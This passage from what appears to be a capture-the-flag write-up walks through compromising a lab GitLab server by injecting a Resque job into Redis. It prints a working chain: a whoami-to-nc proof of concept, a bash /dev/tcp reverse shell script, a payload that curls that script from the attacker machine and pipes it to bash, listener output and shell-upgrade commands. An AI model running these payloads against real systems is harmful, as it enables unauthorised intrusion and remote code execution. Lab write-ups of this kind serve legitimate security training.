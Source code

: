 [![](/img/image-20210409220719648.png)*Click
for full size
![image*](/img/image-20210409220719648.png)

This POC is going to run `whoami` and pipe that into `nc` back to my IP.
On sending that request, I get a connection with a single word:



    oxdf@parrot$ nc -lnvp 80
    listening on [any] 80 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.220] 43438
    git



#### Shell

I had to play with payload a bit to get a reverse shell that worked. I
tried a handful of things that didn't work, but eventually went back to
an old standby of using `curl` to get a Bash script from my VM and pipe
it into `bash`. `shell.sh` was:



    #!/bin/bash

    bash >& /dev/tcp/10.10.14.8/443 0>&1



Then the payload was:



     multi
     sadd resque:gitlab:queues system_hook_push
     lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|curl http://10.10.14.8/shell.sh|bash\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
     exec



On creating that project, I get a shell:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.220] 59190
    id   
    uid=998(git) gid=998(git) groups=998(git)



I'll upgrade my shell with the standard tricks:



    python3 -c 'import pty;pty.spawn("bash")'
    git@gitlab:~/gitlab-rails/working$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    git@gitlab:~/gitlab-rails/working$ 
